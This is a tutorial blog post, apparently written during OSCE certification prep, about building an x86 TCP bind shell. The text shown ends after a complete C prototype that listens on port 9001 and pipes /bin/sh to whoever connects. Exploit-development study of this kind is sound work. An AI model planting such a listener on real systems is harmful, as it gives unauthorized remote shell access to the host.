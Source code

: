 ```yaml
---
layout: post
title: "x86 TCP Bind Shell"
---
```


## Introduction:
During my prep for OSCE, my first goal was to learn to create a bind shell in x86, written from scratch. As we know, or may not know, a bind shell does what it says in the name. It binds a shell. Unlike a reverse shell, the process sets up a listener on the host and waits for a connection, once accepted it fires off our new process and pipes the connection through allowing commands to be sent from a remote system and return the output. 

## Brief thoughts:
The actual implementation of the TCP bind shell was relatively straight forward. Using a C based prototype I was able to make a list of required system calls and utilise the Linux man pages to confirm the arguments and how they would need to appear and be set up within the asm file. An important thing to remember is null bytes are bad. We don't want these to exist in our final project so simple tricks were used to get around these (i.e xor'ing registers with themselves to zero them). These will be highlighted when, and where, they are used.

## Initial planning:
To begin with, I needed to know how a TCP bind shell would be implemented in C. As I had just been looking through h0mbre_'s github write ups, I remembered they included a simple one so I used this as my base reference.

```
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(9001);        

    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    listen(listen_sock, 0);

    int conn_sock = accept(listen_sock, NULL, NULL);

    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    execve("/bin/sh", NULL, NULL);
}
```
